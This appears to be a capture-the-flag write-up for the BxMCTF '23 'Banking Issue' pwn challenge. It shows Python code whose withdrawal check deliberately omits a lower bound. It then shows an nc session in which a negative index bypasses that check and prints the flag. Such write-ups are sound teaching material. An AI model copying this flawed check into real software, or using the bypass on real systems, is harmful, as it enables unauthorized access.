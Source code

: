 ```yaml
---
title: BxMCTF '23 - Banking Issue
date: Sun Jun  4 11:20:01 PM +04 2023
categories: [Writeup]
tags: [ctf,bxmctf2023,pwn]
---
```


## Description

Author: JW

You're at the bank with your girlfriend, she's upset  
She's going off about your empty bank balance  
'Cause she doesn't get your money like I do

Unfortunately, you only have $16 left in your bank account. Feeling too poor to even sing along to Taylor Swift in the car (after all, the radio needs power, which costs money), you wonder,  _if only there was a way for me to pull off a bank heist and get a hundred thousand dollars…_

[pwn1.zip](https://ctfmgci.jonathanw.dev/dl/bxmctf2023/pwn1.zip)

## Analysis

```py
#!/usr/local/bin/python

import os

balances = [10, 20, 50, 16, 29, 52, 100000]
PERMS_ADMIN = { "MAX_INDEX": len(balances) - 1 }
PERMS_AGENT = { "MAX_INDEX": len(balances) - 2 }

def main():
    perms = PERMS_AGENT
    wallet = 0
    idx = int(input("Which account would you like to withdraw from? "))
    if idx > perms["MAX_INDEX"]:
        print("Unauthorized")
        return
    wallet += balances[idx]
    balances[idx] = 0

    print(f"You now have ${wallet} in your wallet.\n")

    if wallet >= 100000:
        print("Thanks for storing a lot of $$ at our bank.")
        print("You qualify for free wealth management services.")
        print(f"To access this service, please email {os.getenv('FLAG')}@bxmctf.bank.\n")

    print("Thank you for banking with BxMCTF Bank.")


if __name__ == "__main__":
  main()
```
The program is simple, there's possible balances we can access and permissions. Program grants us `PERMS_AGENT` meaning we cannot make a withdraw of `$100'000`, or can we? 

Index is only checked for positive numbers, but python supports negative indexing (going backwards). What will happen if we withdraw for `-1` index?

## Solution
```sh
└─$ nc <SERVER_IP> <SERVER_PORT>
Which account would you like to withdraw from? -1 # <-- Input
You now have $100000 in your wallet.

Thanks for storing a lot of $$ at our bank.
You qualify for free wealth management services.
To access this service, please email ctf{REDACTED}@bxmctf.bank.

Thank you for banking with BxMCTF Bank.
``` 